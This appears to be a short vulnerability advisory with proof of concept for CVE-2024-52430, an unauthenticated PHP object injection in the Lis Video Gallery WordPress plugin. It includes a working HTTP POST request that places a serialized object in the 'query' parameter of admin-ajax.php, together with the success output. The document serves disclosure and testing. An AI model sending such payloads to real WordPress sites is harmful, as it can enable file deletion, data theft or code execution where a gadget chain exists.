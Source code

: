 # CVE-2024-52430
Lis Video Gallery &lt;= 0.2.1 - Unauthenticated PHP Object Injection

# Description

The Lis Video Gallery plugin for WordPress is vulnerable to PHP Object Injection in versions up to, and including, 0.2.1 via deserialization of untrusted input. This makes it possible for unauthenticated attackers to inject a PHP Object. No known POP chain is present in the vulnerable software. If a POP chain is present via an additional plugin or theme installed on the target system, it could allow the attacker to delete arbitrary files, retrieve sensitive data, or execute code.


```
CVE: CVE-2024-52430
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: lis-video-gallery
```

POC
---


```
POST /wp-admin/admin-ajax.php HTTP/2
Host: wp-dev.ddev.site
Content-Type: application/x-www-form-urlencoded
Content-Length: 79

action=loadmore&query=O%3a20%3a%22PHP_Object_Injection%22%3a0%3a%7b%7d&page=1
```

```
PHP object injection has occurred.
```
